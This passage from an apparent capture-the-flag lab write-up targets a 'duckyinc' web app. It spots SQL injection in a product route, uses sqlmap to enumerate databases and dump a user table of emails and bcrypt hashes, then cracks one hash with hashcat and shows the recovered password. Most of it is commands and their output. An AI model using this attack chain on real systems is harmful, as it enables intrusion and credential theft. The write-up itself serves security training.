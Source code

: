 The route /products/<product_id> is used for dynamic url and. The user input product_id is directly used in the sql query. So this query must be exploitable. Using sqlmap

```bash
$ sqlmap -u http://10.10.137.57/products/1 --dbs
```

We get the databases

```bash
available databases [5]:                                                                                          
[*] duckyinc                                                                                                      [*] information_schema                                                                                            
[*] mysql                                                                                                         
[*] performance_schema                                                                                            
[*] sys
```

Lets extract data from ducky inc

```bash
$ sqlmap -u http://10.10.137.57/products/1 -D duckyinc --dump
```

Many tables were returned. One interesting table was `user`  and  `system-user`

User table had the first flag `thm{br***********1ng}`

```bash
----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+
```

So we have the hashes. Then I tried cracking the first hash using hashcat. Since it is 

```bash
bcrypt $2*$, Blowfish (Unix) with mode 3200
```

Stored the hash in the file hash and used hashcat

```bash
$  echo '$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a' > hash
$  hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt 
We get the password : **inuyasha**
```
